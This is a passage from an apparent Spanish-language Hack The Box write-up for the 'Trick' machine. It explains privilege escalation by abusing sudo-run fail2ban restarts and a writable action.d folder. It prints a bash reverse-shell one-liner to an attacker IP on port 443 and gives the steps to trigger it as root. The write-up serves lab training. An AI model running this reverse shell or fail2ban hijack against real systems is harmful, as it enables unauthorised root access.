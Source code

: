 ![](/assets/images/htb-writeup-trick/log_poisoning_smtp_mail.png)

## Escalada de Privilegios
Si miramos los permisos que tenemos con **sudo -l** nos daremos cuenta de que podemos ejecutar como **root sin proporcionar contraseña** el script **/etc/init.d/fail2ban restart** Una rápida busqueda en google y encontraremos el siguiente recurso:[Fail2Exploit](https://securitylab.github.com/research/Fail2exploit/)

Para realizar esto crearemos un script en /tmp llamado pwn.sh que contendra:
```
#!/bin/bash

bash -c 'bash -i >&/dev/tcp/10.10.14.11/443 0>&!'
```
Luego nos iremos a la ruta **/etc/fail2ban/action.d** y como estamos en el grupo **Security** tendremos la capacidad de escribir dentro de esa carpeta.<br>
Cambiamos de nombre el archivo **iptables-multiport.conf** y nos creamos uno que se llame igual con los mismos datos.<br>
Posteriormente en el lugar que pone **actionban** debemos poner **/tmp/pwn.sh**.<br>
Por ultimo, reiniciamos el fail2ban con nuestro privilegio de root.<br>
Luego, solo haria falta ponernos en escucha con netcat por el puerto 443 y realizar multiples conexiones erroneas con ssh como el usuario michael hasta que nos baneen y se aplique la regla, que en este caso, nos entablará una reverse shell como root.
